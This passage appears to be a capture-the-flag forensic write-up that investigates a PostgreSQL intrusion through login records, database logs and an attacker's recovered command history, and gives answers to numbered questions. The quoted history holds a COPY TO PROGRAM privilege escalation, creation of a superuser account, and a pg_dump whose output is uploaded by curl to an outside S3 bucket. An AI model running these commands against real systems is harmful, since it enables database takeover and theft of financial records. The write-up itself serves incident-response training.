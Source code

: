```bash
runlevel (to lvl 5)   Wed Oct  9 17:21:48 2024   still running                         0.0.0.0
reboot   system boot  Wed Oct  9 17:21:03 2024   still running                         0.0.0.0

wtmp begins Wed Oct  9 17:21:03 2024


sysadmin         pts/0    10.10.0.1        Thu Oct 24 07:42:57 +0000 2024
lxd                                        **Never logged in**
postgres                                   **Never logged in**
sdb-aroy         pts/0    10.10.2.55       Thu Oct 24 06:42:52 +0000 2024
```
- As mention above, attack occured during 24/10/2024, then I can conclude that attacker use sdb-aroy account to connect db
Q8: db-aroy
Q9: 10.10.2.55
- Because attacker need to extract data from postgre db, so extract all /var/log to get all logs, read postgre log from:
"SalsaDance\catscale_out\Logs\sdb00-20241024-0743-var-log\var\log\postgresql"
```bash
2024-10-24 06:49:37.710 UTC [69316] sdb-aroy@ATM ERROR:  permission denied for table accounts
2024-10-24 06:49:37.710 UTC [69316] sdb-aroy@ATM STATEMENT:  SELECT * FROM accounts;
2024-10-24 06:49:48.381 UTC [69316] sdb-aroy@ATM ERROR:  permission denied for table carddetails
2024-10-24 06:49:48.381 UTC [69316] sdb-aroy@ATM STATEMENT:  SELECT * FROM carddetails;
```
-> Q10: SELECT * FROM accounts;

- I examinate some hiden file like .history,... to find recent command, then I found something smellthy:
```bash
SELECT current_user;
SELECT * FROM pg_stat_activity;
\du 
\l
\c ATM
\dt
\d accounts
\d caddetails
\d carddetails
\d users
SELECT * FROM accounts;
SELECT * FROM carddetails;
COPY (SELECT '') TO PROGRAM 'psql -U postgres -c ''ALTER USER "sdb-aroy" WITH SUPERUSER;''';
CREATE USER "sdb-admin" WITH LOGIN SUPERUSER;
ALTER ROLE "sdb-admin" WITH PASSWORD 'br1ghtLightz';
\du
\! pg_dump -U "sdb-aroy" -h 127.0.0.1 -d ATM -f /tmp/atm.sql
curl -X PUT -T /tmp/atm.sql https://festival-of-files.s3.amazonaws.com/atm.sqlexit
\q
```
-> Q11: COPY (SELECT '') TO PROGRAM 'psql -U postgres -c ''ALTER USER "sdb-aroy" WITH SUPERUSER;''';
-> Q12: pg_dump
-> Q13: https://festival-of-files.s3.amazonaws.com/atm.sql
